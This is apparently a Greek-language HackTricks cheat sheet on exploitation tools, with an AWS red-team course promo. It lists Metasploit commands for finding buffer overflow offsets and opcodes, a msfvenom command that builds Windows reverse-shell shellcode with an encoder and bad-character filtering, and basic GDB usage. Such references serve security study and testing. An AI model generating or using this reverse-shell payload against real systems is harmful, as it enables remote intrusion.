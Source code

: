 # Εργαλεία Εκμετάλλευσης

<details><summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks στο AWS)</strong></a><strong>!</strong></summary></details>

## Metasploit
```
pattern_create.rb -l 3000   #Length
pattern_offset.rb -l 3000 -q 5f97d534   #Search offset
nasm_shell.rb
nasm> jmp esp   #Get opcodes
msfelfscan -j esi /opt/fusion/bin/level01
```
### Shellcodes

### Shellcodes
```
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```
## GDB

### Εγκατάσταση
```
apt-get install gdb
```
### Παράμετροι
```bash
-q # No show banner
-x <file> # Auto-execute GDB instructions from here
-p <pid> # Attach to process
```
### Οδηγίες
```bash
run # Execute
start # Start and break in main
n/next/ni # Execute next instruction (no inside)
s/step/si # Execute next instruction
c/continue # Continue until next breakpoint
p system # Find the address of the system function
set $eip = 0x12345678 # Change value of $eip
help # Get help
quit # exit

# Disassemble
disassemble main # Disassemble the function called main
disassemble 0x12345678 # Disassemble taht address
set disassembly-flavor intel # Use intel syntax
set follow-fork-mode child/parent # Follow child/parent process

# Breakpoints
br func # Add breakpoint to function
br *func+23
br *0x12345678
del <NUM> # Delete that number of breakpoint
watch EXPRESSION # Break if the value changes

# info
info functions --> Info abount functions
```